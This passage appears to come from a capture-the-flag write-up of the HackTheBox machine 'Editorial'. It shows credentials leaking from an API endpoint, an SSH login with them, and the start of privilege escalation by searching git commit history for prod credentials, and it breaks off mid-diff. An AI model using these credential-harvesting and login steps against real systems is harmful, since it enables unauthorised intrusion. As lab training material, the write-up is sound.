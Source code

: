 ```bash
```
The fil contains all the available api endpoints. Among them `/api/latest/metadata/messages/authors` seems little interesting coz it might have the info about users. Or else, we can hit on all the endpoints to check the what we get.

When `/api/latest/metadata/messages/authors` was hit, we got an interesting file downloaded to out system and the content of that file goes as:
```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ cat 08954768-ec71-48e6-82e6-771882a672c3| jq              
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```
from this file we have username:dev & password:dev080217_devAPI!@

Since SSH is running on port 22, let's try this creds and hurray, we got logged in as dev. Now easily we can grab user flag using the following commands.
![user flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/editorial/user_flag.png)

## Previlege Escalation

Let's check what dev can do .
```bash
dev@editorial:~$ sudo -l
[sudo] password for dev:
Sorry, user dev may not run sudo on editorial.
```

Nothing at all 🥲

Let's check /app directory.
```bash
dev@editorial:~$ cd apps/
dev@editorial:~/apps$ ls
dev@editorial:~/apps$ ls -al
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 5 dev dev 4096 Jun 24 13:06 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```
So this is a git repository. let's checkout logs. It has plenty of commits. Cchecking out all the commits one by one, `commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` contains some information about credentials of prod.
```bash
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
```